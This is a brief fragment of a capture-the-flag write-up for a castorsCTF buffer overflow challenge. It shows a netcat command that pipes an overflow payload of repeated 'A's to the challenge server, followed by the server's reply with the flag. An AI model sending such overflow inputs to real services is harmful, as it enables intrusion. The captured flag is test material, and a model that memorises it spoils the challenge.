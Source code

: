 cat input_file | nc chals20.cybercastors.com 14424
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACyberCastors
Hello everyone, say your name: castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
